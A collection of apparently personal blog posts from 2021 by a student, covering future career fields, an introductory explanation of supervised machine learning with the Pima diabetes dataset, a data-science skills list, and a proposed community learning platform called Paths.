Material Science, Applied Chemistry, Mining industries ain’t going to fall anytime soon, but they do need to adapt to the coming change. I will try emphasizing on these changes in later blogs if possible.
Back to IoT,
We do not have enough standards to govern these devices, so new devices might fail to be compatible with old ones.
Not just development, but scaling the number of IoT devices that can be connected under a single hub is also limited.
The more and more you connect with the world, advanced technologies in Computer Networking become more and more necessary. Networking skills are in good demand. They are actually going to face super high demands in the future, a little research will help you understand better.

Alas with all these networks, humans have a few bad people, and WILL try to hack into these networks and there is an ever growing importance for the **Cyber Security field. **I am not even going to go there since, what ever you touch in the field has a necessity somewhere.

Warren Buffet has estimated cyber threats to be one of the biggest threats to mankind, even higher than nuclear weapons. We need people who can guard us and our data from these things.
How can there be so much of something and still have high value?
Lots of data, lots and lots of it? Where is the value? We need to keep creating value from this data. Data we have been emitting like rays of the sun since the first tablet was inscribed on, but, garbage in = garbage out.
As data gets more and more varied, we will need people who can understand it, and help clean it. Not data scientists, don’t get me wrong.

When we say data scientists, we say it like there is one person doing everything from cleaning to deployment. Though, there is a high possibility that this is the case in small companies, in the future, even a startup will start looking for people to clean and analyze the data they collect, this is necessary because the industry is evolving.
What we need in packets today, we might need in containers tomorrow.
To understand an analyze the data,** domain knowledge is equally important.** A person who know nothing about cars cannot extract key details regarding the manufacturing of cars in a factory. A person who knows nothing about finance, cannot efficiently analyze and extract insights from even terabytes of stock-market data.
So prospective data scientists out there, beware, maybe right now, you are managing with common sense and some googling, but it will only get tougher and tougher as your data gets deeply intertwined with the domain.
As we advance more as a society, we will start emitting more data, and in turn we require to collect all this data.Where can more data be extracted from in a system. This is another question people will start asking!
If you want to be a data scientist at Tesla, learn as much about cars as data science. You get the point.
Urbanization and Modernization :
Smart cities, Urban Planning, Battling Climate change, Underwater Structures, these are some big words we hear every now and then.

There will be a need for a civil engineer and a mechanical engineer in almost all renewable energy projects, governments are starting to see the need for it.
Environmental Engineering have great responsibilities to save the future.
Singapore is pouring its millions in Civil Engineering, it faces the Urban Heat Island Effect.
Urban Planning, also looks like a promising career, and the scope has been predicted to rise up to 11% by 2028.

But, unlike other fields this field has grown rather slowly, but will grow, with new ground-breaking research in the field.
As the human community grows, we might eventually run out of space. A well expected thing. We are also combating climate change at the same time. People have started planning for underwater structures.
Humans will always need a roof over their heads. No matter what.
We as a community should also remember that Mr.Musk isn’t guaranteeing us Mars in the near future, and so, we need to take care of earth and as usual we look at new technologies to do that for us.
The construction industry is also going to start using cyber-physical systems in construction.
Humans are just not required in these places anymore, but be glad about it. No more toiling of human labor in the construction sites. We can build unimaginable things, if we start using robots for construction, since, right now, “Built by Humans” is always a huge limitation, but, again how these systems work, how to plan and design them to work in the construction site is another challenge we must face.
We need people to plan the new cities that arise from these changes. Wait a minute, what about the current houses? Current malls? When brick and cement was ready to use in houses. The term “Cavemen” was introduced. After going to mars, we ain’t going to sleep on space rock! Musk take note of that.
Many governments are planning on conversion of their cities into smart cities. We need people who can plan them to be **sustainable. **Where would we have been if our ancestors did not put in their best efforts at planning these things. They built our cities for telephone lines and bullock carts. We are talking Autonomous cars and Internet. Mankind needs to rebuild.
We cannot have telephone towers everywhere. Who is optimizing this? Who does the job of finding out where there is the need for a tower?
And yet again we stumble upon, another important field.
5G Technology, it has the ability to change everything, believe it or not, we might just connect opposite ends of the world in seconds or maybe milliseconds. We want everything to connect to the internet!
I won’t be able to do justice to 5G in this post, but read this blog that clearly explains most possible use cases. Blog

Healthcare :
Bio Technology, is another field that is about to blast off, I do not have to discuss about how we are finding new viruses everyday, but as connectivity increases, these viruses are getting transmitted at breathtaking paces.

COVID19 hit us when we were sleeping, but now we are awake and we have started responding by trying to find various computational methods for modelling drugs, extracting data from genomes, and trying to edit them.
-
Gene discovery and diagnosis of rare mono-genic disorders.
-
Identification and diagnosis of genetic factors contributing to common disease.
-
Pharmacogenetics and targeted therapy.
-
Prenatal diagnosis and testing.
-
Infectious diseases.
The Healthcare industry is generating Exabytes of data, and processing all of it, is well a huge task at hand. Moreover, medicine and a proper treatment for cancer isn’t that far away.

Doctors will have to give a huge amount of time trying to understand and start using efficiently the large amount of tools given to them. It is true that we will start making robots for surgeries, that are super accurate and have greater chances of successes, but, there is no way a human is going to feel better mentally unless a doctor looks at his card and goes,
“You are fine now, Mr.Avtar Singh, your cancer is gone!”
So, docs stick to your white coats.
Law :
Can Robots debate? Do they know the meaning of justice? They can follow a set of rules pretty well, but time and time again, we have faced many loop holes in our constitutions, that we have had to amend those rules to provide justice appropriately.
AI doesn’t understand right and wrong, at-least according to me. Whatever has been right in the 20th century, may be utter injustice in the 21st century.
So, lawyers stick to your black coats.
I haven’t talked about everything yet, there is still a plethora of things that we can look forward to in the future.
The sheer amount of opportunities we have is growing extensively, but mind you, the need to be well-educated is becoming more and more important. We all know Newton didn’t learn Calculus in his high school and he didn’t even know about photo-electric effects of light.
We must accept it, when computers came to the world, they created more jobs than they destroyed and I assure you, it is going to be the case with AI as well.
Don’t try to learn everything, learn to share your knowledge with others, and when others do the same, we will be able to make amazing things.
Saai talks Data Science #2
Date: 2021-03-09
Machine Learning Introduction
What is the difference between Artificial Intelligence and Machine Learning?
Define Artificial Intelligence,
To be honest Artificial Intelligence can be defined in many ways.
This is how IBM defines Artificial Intelligence…
“Artificial intelligence refers to the ability of a computer or machine to mimic the capabilities of the human mind — learning from examples and experience, recognizing objects, understanding and responding to language, making decisions, solving problems — and combining these and other capabilities to perform functions a human might perform.” ¹
This is a definition I found on the Stanford2016 AI100 report…
“Artificial intelligence is that activity devoted to making machines intelligent, and intelligence is that quality that enables an entity to function appropriately and with foresight in its environment.” ²

According to the second definition of Artificial Intelligence, even a calculator can be considered to be intelligent, but the difference between it and the human-brain is scale, speed, degree of autonomy, and generality.
The same factors can be used to evaluate every other instance of intelligence — speech recognition software, animal brains, cruise-control systems in cars, Go-playing programs, thermostats — and to place them at some appropriate location in the spectrum.
Speech recognition software were designed for the sole purpose of recognizing speech and Go-playing programs were designed for the sole purpose of playing Go, they are not generalized and hence differ from an animal brain, which is much more complex in scale and is generalized, to perform various operations.
Calculators are significantly faster than the average human brain in calculating complex mathematical values, but lacks in degree of autonomy.
They won’t give you the output until you press the “Enter” key or the “=” key, but cruise-control systems in cars are have a greater degree of autonomy. Both come under the category of intelligence.
So piece of code that is able to mimic human intelligence can be called artificial intelligence but they all vary in the degree of intelligence they have and can be categorized in this manner.
Define Machine Learning,
Machine Learning is a subset of artificial intelligence, which involves using data in order to increase the accuracy of the results generated by the algorithm, without human intervention in the process of learning from the data.
Machine Learning algorithms optimize themselves to be better based on the data provided to them, you can note the clear line of difference here,
Machine Learning Algorithms are a far more complex algorithms, which have a higher level of autonomy compared to a calculator, though both are artificially intelligent.
They are used on a wide range of tasks such as scam filtering or computer vision.
Machine Learning can be divided into three classes :
-
Supervised Learning
-
Unsupervised Learning
-
Reinforcement Learning
Supervised Learning :
Supervised Learning refers to a class of Machine Learning the Algorithm learns to map a set of input features to a target variable.
Mostly the need for supervised learning will occur if we have a defined set of features and a target variable like in the dataset given below.
 Pima Indian Diabetes Database⁴
Pima Indian Diabetes Database⁴
Each row in the data-set represents a data sample, in our case each sample is a female at least 21 years old of Pima Indian heritage. Each Column represents a feature used to describe every person.
For example,
Patient 0 — has had 6 Pregnancies, Glucose level of 148, Blood Pressure of 72 and so on…
Our problem statement —
Given all of the features data of a female of at least 21 years old of Pima Indian Heritage except the outcome. Calculate the outcome,
Outcome of 1 represents that the patient has diabetes, and 0 suggests that the person doesn’t have diabetes.
So, we’re given the above dataset to train our machine learning model to perform this task.
We start by splitting the dataset into features-target pairs.
features = ['Pregnancies','Glucose','BloodPressure','SkinThickness','Insulin','BMI','DiabetesPedigreeFunction','Age']
target = ['Outcome']
# for Patient 0 the feature-target pair will be:
features = [6,148,72,35,0,33.6,0.627,50]
target-label = [1]
and so on for all other patients...
Our dataset consists of 5 rows, out of which we will use 3 to train the model. This data is called the training data.
We reserve the remaining 2 columns in order to test the model’s accuracy in telling us whether the patient has diabetes or not. This data is called the testing data.

The model takes the first features-label pair.
Trains on it,and learns that for such and such values of features, the value of the target-label is…1 or 0 and so on…
and then takes the second features-label pair and does the same on this too.
In the end the model which has been exposed to 3 features label pairs knows to an extent how to map the features’ values to the value of the target.
Then on the test data, we predict results for the model and check if the model has learnt how to map the features to the target(outcome) properly or not.
If you have any feedback leave them in the comments, hope you are able to understand what I have written, if not post any doubt in the comments, I’ll try my best to answer them.
[1] https://www.ibm.com/cloud/learn/what-is-artificial-intelligence
[2]Nils J. Nilsson, *The Quest for Artificial Intelligence: A History of Ideas and Achievements *(Cambridge, UK: Cambridge University Press, 2010).
[3]*Original file: Avimanyu786 SVG version: Tukijaaliwa, CC BY-SA 4.0, via Wikimedia Commons.*
{kind=link}
[4]Smith, J.W., Everhart, J.E., Dickson, W.C., Knowler, W.C., & Johannes, R.S. (1988). Using the ADAP learning algorithm to forecast the onset of diabetes mellitus. In Proceedings of the Symposium on Computer Applications and Medical Care (pp. 261–265). IEEE Computer Society Press.
Saai talks Data Science #1
Date: 2021-03-08
Ever looked at the spam folder in you e-mail and thought, “Woah!, how does this thing know if a mail is a spam or not?”.
Natural Language Processing or on a broader perspective, Machine Learning and Deep Learning. Now, these words are often confused to be the same as Artificial Intelligence.
“Data Science”, I am 99% sure you have heard this word before. That 1% is for people who were living under a cave all these years. If, you having been living under a cave, the upcoming series of posts should be able lay out you basics and get you started in this wonderful intersection of Statistics and Computer Science.
Yeah, you heard it right! STATISTICS and also PROBABILITY, i.e MATHEMATICS, to be a good Data Scientist your Statistics skills should be top notch. Note that this is a required skill, but not the only skill. That is the reason why Statisticians find it easier to transition into Data Science jobs.
Apart from Mathematics, you might also have to learn -
-
Machine Learning— mostly math
-
Deep Learning— math again
-
Big Data concepts ( Apache Hadoop and Apache Spark ) — an intermediate level of knowledge will suffice as of the hour I am writing this post.
-
DBMS — Database Management Systems (So, if you have been running away from SQL, FACE IT! )
-
Data Visualization tools— there are many wonderful tools like D3js, Plotly, Matplotlib , Seaborn
-
Storytelling skills— if you can talk about a bar chart for a minimum of 15 minutes non-stop! , you are good to go.
-
Communication Skills — So, that you don’t stare at the audience or in this case your clients or your employer.
-
Ability to work in a team — I don’t have to explain why this is important, you can’t manage an entire Hadoop Cluster, while making sure its secure, while analyzing the data while designing your neural network while communicating to your clients.
-
Most important skill — Curiosity, but don’t worry, humans were born with this, you will awaken your inner “Cat” soon enough.
-
I almost forgot(literally), an expert understanding of either Python or R, you might find it difficult with any other languages, due to lack of community resources. In my posts, I will use python.
Data Science might sound like its easy, but the subject is vast, as of the ten points above, I am just scratching the surface…the learning never ends actually… so, by the time you retire, you will have huge skill-set, so…
if you are in it for the money and do not really like the subject,
“Let me warn you, its not going to be a lot of fun. The Bandwagon won’t take you too far, unless you are super determined.”
If you are genuinely interested in the subject though, carry on happily, you’ll definitely love this field.
One more tip I would like to give you is, use open — source as much as possible, you can apply you knowledge in open — source tools easily in enterprise tools.
Why Open-Source?
Coz, it is the best thing that ever happened to humanity, the word shouts “Unity”. Take “Wikipedia”, the ultimate encyclopedia, it couldn’t have been made by one organization, let alone one person. Every single contributor of Wikipedia comes from various countries, various backgrounds, various skill-sets and yet its marvel stuns all!
So every-time someone asks you why open-source is important, tell them,
“What one man achieves in a year, a community achieves in a minute”
IT’S FREE! Do you need a better reason?
Here are some excellent website every student of Data Science might wanna know of:
-
YouTube- DeepLearning.ai — Take a moment to thank Andrew Ng and his wonderful team for making such top notch content free to watch. There are Coursera courses too, if you want to get certifications.
Some, python libraries that are essential,
-
Numpy
-
Pandas
-
SciPy
-
Scikit Learn
-
Matplotlib
-
Seaborn
-
TensorFlow (or) PyTorch — they are the leaders as of the time I am writing this post.
I have attached a few of the best resources and libraries I know, if you have anything in mind, do drop it in the comments.
Hope you liked this post, thank you, drop any feedback you might have in the comments, I’ll make sure to fix any issues if you find any.
Thank you…see ya!
Paths — A way into the future for everybody.
Date: 2021-09-11
Disclaimer : This website does not exist, I just think it will be really cool if it does.
Have you ever wondered how humankind is going to manage this super fast transition into the future.
In the my last post I had emphasized on what is gonna happen, but I didn’t really give you my thoughts on what has to be done for us to make this a fruitful transition?
When it comes to transitioning, the first and the foremost system that we must mend is how we gain knowledge.
After some deep thinking and a lot of googling, I found out, that
-
Certificates are** super costly!!**
-
College is** Costlier.**
-
Everyone’s primary source of knowledge is ultimately YouTube.
So, there we have it, the answer, YouTube, or in a wider context, **free resources available on the Internet. **Yes, we do have to pay for the internet, but it is comparatively cheap when compared to the millions draining out of parent’s pockets!
**Woah, **wait up! What are you saying Saai? You are asking us to dropout of college and study stuff off the Internet!!!
Well, not exactly my friends, let me explain, or rather, let me pitch an idea here, right on medium,
Paths — A Way into the Future :
There are tonnes of learning material on the Internet. Don’t lie, you use them more often than you know!
Aside from the expense part, finding your niche is also becoming more and more difficult as jobs have become more intricate.

All of a sudden you realise all your friends are doing something and you want to gain some skills apart from what college teaches you. After lots of asking around and being convincing by your friends and parents, you want to learn Data Science, all right,
Step 1: Go to any Ed Tech Platform, find a course that has the words “Complete”, “Full” or “End to End”.
Step 2: Finish their course and add the certificate they give on your resume.
Step 3: Try making projects and fail miserably a few times, before getting it right the 100th time after helping yourself with 100’s of google searches and stack overflow code. At this point, you are starting to doubt if the project is really yours at all.
Even worse, you don’t try doing projects at all, because, you don’t have the equipment (or) you don’t have the time (or) Nobody told you!!
Now, after Paths is implemented,
**Step 1: **Understand that the college courses only give you a foundation and that you need to get a deeper understanding of some subject or domain that you college is teaching you. Even, if it is not a part of your curriculum, it is alright. College courses are designed in such a way that it can help everyone, not just one person. Learn what you want to, try learning the other subjects too, they might help later on, because everything is interconnected.
Step 2: Go to the **Paths **website, and pick a Domain that you want to completely go into and master. Or even better, pick the subjects you like and the site tells you what jobs you are apt for.
“The best jobs you can get are the ones that are CREATED for you” — Ivan Peppelnjak
**Step 3: **Now you know, what you wanna become, what you have to study(vaguely).
You would have chosen Python, but, python is super huge, 1000’s of libraries and the versatility of the language is too great for you to fully learn it. If you want to do Data Science — Numpy and Pandas is key. If it is Web Development — Django and Flask come without saying. If it is Computer Vision — you will find yourself at the mercy of OpenCV and skimage. If it is… you get the point.
Where do you start, the world runs on open-source and there are many open-source tools out there! What will you learn?
You will use the syllabus that is provided on the Paths website for the domain you selected, and in that you will have a list of subjects and in that you will have a list of things you will have to study in that subject, of course the prerequisites will be included too.
**Step 4: **Navigate to the website’s resources section, which is basically a thread containing all possible resources (links to Blogs, Books and YouTube Videos) for each topic in each subject. These resources are rated and is updated by the users. They are also Up voted and Down voted by the community.
**Step 5: **After this the candidate becomes a **noob **in the subject. After this the ranks are upgraded by the rating other people give for his profile. This rating is more like us asking, “How is my GitHub?”.
Yes, Paths has ranks for each member, 16 ranks to be precise.
Not just GitHub, candidates can attach any website, like blogs, project videos etc.Why would people want to rate other people’s pages? Who would do this to who?How would they do this? I’ll come to this in a minute, now we will move on to the next step of your journey.
Finish studying and rise in ranks and after 3 months minimum, get ready to write the first exam for entering the Professional rank, which is the 9th rank.
To be ranked, you must pass a written exam, for a very small fee(less than 7$), but beware, if you fail the exam, you won’t be able to write it for the another 3 months. There is no workaround.
This is to make sure the students actually prepare for the exam and actually study, because, time is as valuable as money. The pass conditions for the exam are strict, but not based on rank, it will be based on the difficulty of the paper.
**Step 6: **Now, assume you have reached the “Professional” rank on Paths,
You will get notified immediately as you reach the **Professional **Rank, because, this rank is the requirement for you to enter Paths —Bridge, which connects you to organizations that are posting vacancies on not just Paths, but other websites like Glass door, Indeed, etc. Paths will auto-apply with your resume (or you can toggle it to do this manually, in this case, you will only get notified).
You can keep track of your applications, any interviews or task deadlines, will be added to your calendar**, **which will remind you 1 week, 3 days and 1 day prior to the task’s deadline. (Customizable)
**Step 7: **You get a job, you are a Professional, but it doesn’t end here,
Learning is a never ending process, and did I mention that **Professional **is only the 9th rank? Yes, There are 8 more ranks for you to climb. You will also be able to evaluate the papers of the students who write to get ranked in that domain.
Don’t worry, the papers will go through multiple layers of evaluation and rejection is possible only if the first evaluator provides a proper reason and all the subsequent evaluators accept that the reason is sufficient to reject the paper.
Nope, you do not have to correct them for free, you will get a part of the fee that was paid by the candidate, for each paper evaluated. First Evaluator, gets the maximum share.
There are ways for your profile to get down-voted also, which means a fall in the ranks, which means, even if you are a “Professional”, you still face a risk of falling back to “Beginner”. So, keep updating your profile and learn new stuff.
On the upside, you can progress in you work environment too,
“Learning should never stop, if you want success, don’t look at learning as a part of you college or school life”
**Step 8 : **Help people, help the society advance, contribute to open-source projects, its not all about computers and academics. Help clean a local park or participate in a tree-plantation drive. Post them on the Paths website.
Paths holds your data, true, but to an extent you are allowed to manage what goes to the analytics and what does not. Paths requires your data to improve its services and won’t sell it to data vendors.
The System :
I have been making some wild claims as to what paths can do, though, I have minutely covered how it will do things, this section will hopefully clarify all of your doubts.
I’ll go step by step in terms of doubts as well,
Step 2: Doubt 1: How can Paths know what career I like?
Honestly, Paths won’t, it cannot! Based on your likes and preferences in terms of subjects in the Paths Database and other hobbies. It suggests you a list of choices. Along with this, it also provides a complete definition of the domain, in terms of scope, salary, benefits, demerits, and also the syllabus for the domain and if possible we can try to include a list of the major industry players in the domain too.
Paths will take the help of the community to create this database. Uses Analytics to suggest options and help you choose.
Step 2: Doubt 2: What if I want to change the Domain once I start?
A very good question, if you do have this question in your mind, it means you have started thinking about this.
The syllabus is not a piece of paper, it is a check list, as you fill in each box in the check list, your career options in other domains open as well. For example, A candidate who wants to do Data Science, can transition to ML or AI Engineer Domains. You can also complete multiple domains.
In case you want to work on a whole different field, which has no subjects in common with the one you are currently working on, you must restart with a new checklist.
As you complete each subject, small tests are conducted to help you evaluate your proficiency.
Step 3: Doubt 1: What Domains? What Subjects? What Syllabus?
There are many domains, like Data Science, AI-ML Engineer etc, you have to complete the complete syllabus of that domain, which includes a set of subjects.
Each subject has a list of topics, it is these topics that are kept track of by Paths, for helping you in case you wanna transition into other domains.
This, is what the structure will look like,
 sudo apt install tree…lol
sudo apt install tree…lol
Step 5: Doubt 1: How does the ranking system work?
Now, I am obligated to tell you,
Paths has 16 ranks, each rank has a set of basic tasks and additional tasks. Each task has a credit score.
As you finish each task, you will add a link to it or an equivalent on Paths, a person in the ranks above you will up-vote or down-vote it. Once, you reach the assigned difference in votes (up-votes minus down-votes), your task will be considered accepted and you will be awarded the credits for that task.
This credit score will get added to your Overall Credit Score (OCS), which includes the total of all the credit scores you achieved for all the ranks you have progressed through so far. It is possible for your OCS to go down if the number of down-votes increases and the difference in votes, goes below the assigned value. In this case the task that was previously accepted will be returned.
You will have to complete the basic set of tasks in order to qualify for rank progression. If your OCS is higher than the person with the lowest OCS in the rank above yours, your rank will will progress and that person will come down to your rank.
So, there are as many ways to rise as there are way to fall.
Step 5: Doubt 2: Why will someone rate my profile?
Well they will, since, for every profile you rate, someone will rate yours, and only that is possible. You could be sitting in India and rating a profile of someone in Uganda.
Well, this is my idea, and I have come to the conclusion, that it has to be
by the community — for the community — of the community of programmers.
No one person or organization can pull this off. This idea is more of an imagination, and I hope it interests a group of people. If you are interested in implementing this idea, go ahead with it, but please don’t make any profit minded amendments to it. You do not have to ask me or anything. Consider the idea my contribution to the project.
I am only a college student and might have made a few mistakes in the finances part, for this idea.
Additional Readings —
OER : https://en.wikipedia.org/wiki/Open_educational_resources
**FCC : **https://en.wikipedia.org/wiki/FreeCodeCamp
https://en.wikipedia.org/wiki/Free_education#On_the_Internet
https://en.wikipedia.org/wiki/MIT_OpenCourseWare
A friend found a similar website online : https://launchschool.com/